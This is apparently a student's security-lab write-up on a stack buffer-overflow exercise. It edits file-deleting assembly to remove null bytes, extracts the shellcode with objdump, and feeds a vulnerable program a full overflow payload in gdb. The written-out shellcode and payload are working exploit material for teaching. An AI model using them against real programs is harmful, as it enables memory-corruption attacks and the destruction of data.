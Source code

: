 # LAB2

**Student ID:** 22110038
**Name:** Phan Triệu Huy 

## Delete File dummyfile:
create file dummy and setup:

![image](https://github.com/user-attachments/assets/a258dbbe-9919-4b30-8b27-a4408987cfbb)

**change file_del.asm**:

Because eax is 32 bits register so when we move a small value into eax, the high bits of this register (24 bits) will automatically be filled with 0.

We need to edit a few lines of code in file_del.asm:

  Use al register. Because this is the lowest 8-bit part of the eax register. When you move a value into al, only 8-bits (1 byte) are changed, not affecting the rest of eax.

  Clear the eax register using command:

xor eax, eax

  Replace move eax, 10 with:

mov al, 8

add al, 2

![image](https://github.com/user-attachments/assets/1404b019-75f9-4914-867d-a3c51679ba3d)

**generate shellcode**:
  for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
![image](https://github.com/user-attachments/assets/75c66888-246a-47ca-8d74-1039ed389a0b)
**Run gdb:**
set breakpoint at    0x0804846b <+48>:    mov    eax,0x0
![image](https://github.com/user-attachments/assets/0d074529-21c3-4258-bab4-ec8d37ab9793)

run code (it's still x00 at the end, so i will change it):
  r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x89\xc0\x34\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x01' + 'a'*32 + '\xff\xff\xff\xff')")
after run:
  ![image](https://github.com/user-attachments/assets/1a2cb6fe-7008-434d-ac18-673b80c49fe4)
change return address and 0xffffd6cb = 0x00:
![image](https://github.com/user-attachments/assets/74098831-1904-460e-8d92-01ef41caba9d)
and after continue, the result:

![image](https://github.com/user-attachments/assets/fbd2fd9b-5c39-450c-8b69-511415f067fe)















